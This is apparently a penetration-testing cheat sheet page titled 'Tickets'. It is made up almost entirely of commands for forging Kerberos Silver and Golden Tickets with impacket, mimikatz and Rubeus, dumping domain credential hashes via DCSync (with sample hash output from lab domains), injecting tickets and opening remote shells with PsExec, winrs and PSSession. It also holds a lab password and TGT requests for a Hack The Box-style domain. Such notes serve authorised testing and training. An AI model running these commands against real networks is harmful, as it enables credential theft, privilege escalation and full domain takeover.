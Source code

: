 ```yaml
---
title: "Tickets"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Silver Ticket 

On Linux

```sh
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

On Windows

```sh
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```

## Golden Ticket :

**On Windows :**

- DCsync :
 ```sh
 mimikatz # lsadump::dcsync /all /csv  
 ```
 
 - Result : 
 ```sh
[DC] 'lab.trusted.vl' will be the domain
[DC] 'labdc.lab.trusted.vl' will be the DC server
[DC] Exporting domain 'lab.trusted.vl'
1104    rsmith  30ef48d2054363df9244bc0d476e93dd        66048
502     krbtgt  c7a03c565c68c6fac5f8913fab576ebd        514
1106    ewalters        56d93bd5a8250652c7430a4467a8540a        66048
500     Administrator   75878369ad33f35b7070ca854100bc07        66048
1107    cpowers 322db798a55f85f09b3d61b976a13c43        66048
1000    LABDC$  c101e5fcd553128d23a62df1c509a576        532480
1103    TRUSTED$        182161c2718e1d45b2202d6e35a7eb6e        2080
```

 - Creating Golden ticket : 
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

- Load the ticket to get the shell on root domain trusteddc.trusted.vl
```sh
mimikatz: kerberos::ptt ticket.kirbi

winrs -r:trusteddc.trusted.vl cmd
#or 
Enter-PSSession trusteddc.trusted.vl
#Or 
.\PsExec.exe -accepteula \\<TARGET> cmd
```

**On Linux :**

- Modifying krb5.conf : 
```sh
[libdefaults]
    default_realm = INFILTRATOR.HTB

[realms]
    INFILTRATOR.HTB = {
        kdc = 10.10.11.31
        admin_server = 10.10.11.31
    }

[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
```

- Obtain Tgt ticket :
```sh
getTGT.py 'infiltrator.htb'/'d.anderson'@10.129.62.59 
#or 
getTGT.py 'infiltrator.htb'/'d.anderson':'WAT?watismypass!' -dc-ip 10.129.62.59
```
